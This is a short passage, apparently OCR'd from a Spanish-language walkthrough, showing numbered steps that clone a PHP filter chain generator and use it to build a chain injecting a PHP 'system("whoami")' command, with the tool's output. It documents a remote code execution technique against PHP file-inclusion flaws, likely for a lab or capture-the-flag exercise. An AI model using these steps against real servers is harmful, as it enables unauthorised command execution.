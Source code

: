 Acción 3: 

```bash 
git clone https://github.com/synacktiv/php_filter_chain_generator
cd php_filter_chain_generator
python3 php_filter_chain_generator.py -h
```

Acción 4: 

```bash 
python3 php_filter_chain_generator.py --chain '<?php system("whoami"); ?>'
```

Resultado:

```bash
[+] The following gadget chain will generate the following code : <?php system("whoami"); ?> (base64 value: PD9waHAgc3lzdGVtKCJ3aG9hbWkiKTsgPz4)
```